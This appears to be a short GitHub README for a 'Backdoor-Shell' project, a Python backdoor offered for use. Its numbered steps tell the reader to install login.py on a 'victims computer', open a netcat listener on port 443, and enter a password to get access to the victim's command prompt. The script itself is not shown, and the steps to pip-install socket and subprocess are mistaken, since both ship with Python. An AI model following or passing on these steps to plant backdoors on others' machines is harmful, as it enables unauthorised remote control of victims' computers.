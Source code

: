 # Backdoor-Shell
Basic python backdoor script

.THE HOST SHOULD USING LINUX-SOFTWARE

1.install python(https://www.python.org/downloads/)

2.pip3 install socket

3.pip3 install subprocess

4.install the login.py on victims computer

5.change the password at login.py for better security

6.go to your teminal and type nc -lvp 443

7.type your password

8.it will connect and you get access of victims cmd

